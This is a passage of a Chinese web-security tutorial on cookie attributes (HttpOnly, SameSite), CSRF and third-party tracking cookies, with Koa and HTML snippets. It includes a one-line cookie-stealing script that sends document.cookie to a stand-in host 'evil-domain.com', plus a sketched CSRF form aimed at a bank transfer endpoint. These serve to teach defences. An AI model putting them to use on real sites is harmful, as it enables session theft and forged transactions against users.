 ```js
router.get('/detail', async ctx => {
  // ctx.set('Set-Cookie', 'key1=666; Max-Age=3600;path=/')
  ctx.set('Set-Cookie', 'key1=888; path=/detail;')
  ctx.set('Set-Cookie', 'key1=888; path=/detail;HttpOnly') // 无法通过脚本拿到
  await ctx.render('detail')
})
```
<enlarge><img src="./imgs/httponly.png"/></enlarge>

如果设置了一个 `Cookie` 的`HttpOnly`属性，下面代码就不会读到该 `Cookie`。
```js
// 跨站点载入一个恶意脚本，能够将当前网页的 Cookie 发往第三方服务器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 3.4 SameSite

`Chrome 51` 开始，浏览器的 `Cookie` 新增加了一个`SameSite`属性，用来防止 `CSRF` 攻击和用户追踪。

- **`CSRF`跨站请求伪造(cross-site request forgery)**：`Cookie`往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 `Cookie` 的 `HTTP` 请求，这就是 **CSRF 攻击**。

举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 `Cookie`。用户后来又访问了恶意网站`malicious.com`，上面有一个表单。
```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```
用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 `Cookie` 的请求。为了防止这种攻击，表单一般都带有一个随机 `token`，告诉服务器这是真实请求。
```js
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

#### 第三方cookie
第三方网站引导发出的 `Cookie`，就称为第三方 `Cookie`。它除了用于 `CSRF` 攻击，还可以用于用户追踪。比如，`Facebook` 在第三方网站插入一张看不见的图片。
```js
// 浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，
// 从而 Facebook 就会知道你是谁，访问了什么网站。
<img src="facebook.com" style="visibility:hidden;">
```
